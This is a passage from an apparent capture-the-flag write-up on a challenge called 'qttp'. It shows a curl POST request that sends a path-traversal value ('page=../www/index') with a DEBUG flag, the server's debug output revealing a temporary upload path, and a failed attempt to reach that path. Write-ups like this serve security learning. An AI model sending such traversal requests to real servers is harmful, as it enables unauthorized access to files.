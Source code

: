 And what about with DEBUG turned on?

  <div class="separator" style="clear: both; text-align: center;">
    <a href="/images/2015/04/qt13-2.png" imageanchor="1" style="margin-left: 1em; margin-right: 1em;"><img border="0" src="/images/2015/04/qt13-2.png" width="550" /></a>
  </div>

Cool stuff but not everything we need yet. We need to switch to a POST query and probably something of type "application/x-www-form-urlencoded" which we learned about in the "base.inc" file. From here I switch to using curl in my Kali box:

```
 root@mankrik:~/plaid/qttp# curl -i -s -k -X 'POST'   
 >     -H 'Referer: http://107.189.94.253/?page=contact'   
 >     -H 'Content-Type: application/x-www-form-urlencoded'   
 >     --data-binary $'name=r&email=r&subject=r'   
 >     'http://107.189.94.253/?page=../www/index&DEBUG=on'  
```
    
```
 <!-- POST_PATH = /uploads/E713E9DC16497//data1d2fc014.0 -->  
 <!-- QUERY_STRING = page=../www/index&DEBUG=on -->  
 <!-- REQUEST_URI = / -->  
 <!-- path = ../pages/../www/index.shtml -->  
 <!-- DEBUG = on -->  
 <!-- HTTP_CONTENT_TYPE = application/x-www-form-urlencoded -->  
 <!-- page = ../www/index -->  
 <!-- SCRIPT_EXT = .shtml -->  
 <!-- subject = r -->  
 <!-- HTTP_USER_AGENT = curl/7.26.0 -->  
 <!-- METHOD = POST -->  
 <!-- HTTP_REFERER = http://107.189.94.253/?page=contact -->  
 <!-- name = r -->  
 <!-- HTTP_HOST = 107.189.94.253 -->  
 <!-- HTTP_ACCEPT = */* -->  
 <!-- POST_LENGTH = 40 -->  
 <!-- VERSION = HTTP/1.1 -->  
 <!-- REMOTE_IP = ::ffff: -->  
 <!-- HTTP_CONTENT_LENGTH = 40 -->  
 <!-- email = r -->  
```

Ok look at that, seems like there's that POST_PATH variable we read about. Let's see, can we just browse to that folder and look at our contents?

<i><b>File not found (../pages/../uploads/E713E9DC16497//data1d2fc014.0)</b></i><br /> <i><br /></i><br /> Nope. In fact, in my testing I was unable to ever get directly to this file once I learned about it's name. If the file was stored on the server any length of time I think it must be a few seconds at the most.
